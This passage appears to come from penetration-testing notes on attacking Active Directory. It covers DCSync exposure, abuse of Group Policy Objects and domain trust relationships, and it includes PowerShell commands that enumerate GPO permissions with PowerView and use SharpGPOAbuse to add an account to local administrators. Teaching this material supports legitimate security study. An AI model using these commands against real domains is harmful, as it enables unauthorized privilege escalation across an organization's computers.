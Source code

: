 The easiest and quickest way to find users who are misconfigured with the `DS-Replication-Get-Changes-All` is using [[0002 Attacking Active Directory#BloodHound|BloodHound]] as it will visualize all the users who are misconfigured with that permission. Another thing that is important to note is that some passwords inside the Active Directory will be shown in plaintext while doing DCSync attack and that happens because the `Reversible Encryption` is enabled on the account.

### Group Policy Object Abuse

Group Policy Object provides the system administrators to apply policies to users, computers, and server objects inside the Active Directory. It's great for applying policies such as password strength requirements, idle timeout for users, and always allowing remote desktop access to domain administrators.

```powershell title='Group Policy Object (GPO) Abuse'
# PowerView: Importing Module
Import-Module .\PowerView.ps1

# PowerView: Getting GPO by their name
Get-DomainGPO | Select DisplayName

# Group Policy Management Tools: Getting GPO by their name
Get-GPO -All | Select DisplayName

# PowerView: Enumerating Domain User GPO Rights
$SID = Convert-NameToSID "Domain Users"
Get-DomainGPO | Get-ObjectACL | ?{$_.SecurityIdentifier -eq $SID}

# Group Policy Management Tools: Converting GPO to Name
Get-GPO -Guid "7CA9C789-14CE-46E3-A722-83F4097AF532"

# SharpGPOAbuse: Adding a account to local administrator group
	SharpGPOAbuse.exe --AddLocalAdmin --UserAccount '<USERNAME>' --GPOName "Vulnerable GPO"
```

Users inside the organization may be able to modify a group policy since the permissions were misconfigured while setting up the group policy object. The [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) is great for abusing these misconfiguration but it's important to note that it could affect anywhere from 10s to 100s of computers inside the active directory which could significantly affect the organization.

### Domain Trust

When a organization acquires another company they will need to create a domain trust relationship between the domain controllers for them to communicate with each other. This communication can be one-way or two-way (bidirectional) communication. 

* **One-way Trust Relationship:** Users from Domain A can access resources in Domain B. However, users in Domain B can’t access resources in Domain A.
* **Two-way Trust Relationship:** Users from Domain A can access resources in Domain B. The Domain B can also access the resources in Domain A.

The organization Domain A could be extremely secure but if there are misconfiguration in Domain B the threat actors could use these misconfigurations to obtain domain privileges over Domain A. This is possible because of the two-way trust relationships between the domain controllers.
